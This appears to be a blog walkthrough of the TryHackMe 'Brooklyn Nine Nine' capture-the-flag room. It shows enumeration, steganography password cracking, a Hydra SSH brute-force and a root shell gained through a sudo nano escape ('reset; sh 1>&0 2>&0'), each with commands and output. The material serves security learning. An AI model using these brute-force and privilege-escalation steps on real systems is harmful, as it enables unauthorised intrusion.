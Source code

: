 ```yaml
---
title: "Brooklin nine nine"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


<img src="bnn.jpeg" alt="bnn" width=200/>

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### ffuf 

```
.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 718, Words: 94, Lines: 33]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10]

```

Haha a comedy classic. ok ftp first

```
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
227 Entering Passive Mode (10,10,70,22,232,201)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (1.1822 MB/s)
```

haha `jake` got a weak password. No surprise here! does it mean we can brute his ssh?

hmm..let's check the website first...wide background...lets check code (always)

```

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
```

<img src="brooklyn99.jpg" alt="bnn_steg" width=300/>


steganography is booming now...Do people really use it that much IRL?

```
└──╼ $binwalk brooklyn99.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01


└──╼ $steghide --info brooklyn99.jpg
"brooklyn99.jpg":
  format: jpeg
  capacit�: 3,5 KB
Essayer d'obtenir des informations � propos des donn�es incorpor�es ? (o/n) o
Entrez la passphrase: 
steghide: Impossible de d�compresser les donn�es. Donn�es endommag�es.
```
corrupted data? now what? oh yeah wrong passphrase!

stegcracker it is! well I don't like bruteforce alot

```
└──╼ $stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20715 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

time-consuming for probable results...my computer is a potato...oh look it's done!

in the extracted file we get holt-s password lol

```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Ok now I get it..the author was talkig about two ways of access

I thought we would be jake but we are holt...

I want to try something real quick (not so quick) 


```
└──╼ $hydra -l jake -P /usr/share/wordlists/rockyou.txt -s 22 -f 10.10.70.22 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-27 01:18:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.70.22:22/
[22][ssh] host: 10.10.70.22   login: jake   password: 987654321
[STATUS] attack finished for 10.10.70.22 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-27 01:18:25
```

Lol I knew it! now we hae two possible ways of access:

`jake:987654321`

`holt:fluffydog12@ninenine`

I like jake alot but I feel holt would have more "authority"...holt first!

We can always su to jake if the same password is valid

```
holt@brookly_nine_nine:~$ cat user.txt
brooklyn_nine_nine_flag
```

## Privilege Escalation

Even holt needs more privileges

```
holt@brookly_nine_nine:/home/amy$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

nano? easy!

like vi or vim nano can execute commands too

as it runs as root (sudo) just ask for a shell and it shall be a root shell

first open nano with root authority

`sudo nano`

Next do ^R (ctrl+R) for reading mode then ^X (ctrl+X) for commands execution

your command for a shell would be:
```
reset; sh 1>&0 2>&0
```
press enter and you are root

```
# id
uid=0(root) gid=0(root) groups=0(root)
```
Now go get that flag!

```
# cd /root
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: nine_nine_hacked_flag

Enjoy!!
```
I hope you have fun doing this room...I specifically request it! XD

